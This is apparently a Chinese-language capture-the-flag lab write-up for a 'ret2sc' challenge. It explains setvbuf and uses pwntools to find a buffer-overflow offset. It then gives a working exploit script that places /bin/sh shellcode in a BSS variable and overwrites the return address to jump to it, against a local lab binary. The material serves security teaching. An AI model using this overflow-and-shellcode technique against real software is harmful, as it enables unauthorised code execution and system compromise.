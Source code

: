 # Lab3 ret2s

## 先備知識

### setvbuf()

`int setvbuf(FILE *stream, char *buffer, int mode, size_t size)`

定義了stream的buffer怎麼被緩衝

- buffer 分配的緩衝區，如果是NULL會自動分配
- mode 0: FUll  buffering、1: Line buffering、2: No buffering
- size 單個緩衝區大小

這裡使用setvbuf(stdout, 0, 2, 0)設定為無緩衝

## Solve

### 分析

有兩個input，其中`name`為全域變數存放在BSS區段，而`buf`則存放在stack中

### how to find offest

from pwn import *

cyclic(100)

cyclic_find("<return overflow string>")

### 解題策略

將shellcode塞在name中，並且利用BOF將return的值蓋掉，跳轉到name的地方。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

r = process('./ret2sc')
name = 0x804a060 # address of name (BSS) where we are going to placed return 
r.recvuntil(":")
r.sendline(asm(shellcraft.sh())) # /bin/shell shellcode
r.recvuntil(":")
payload = "a"*32 # buffer size 
payload += p32(name) # overflow return 
r.sendline(payload)

r.interactive()
```
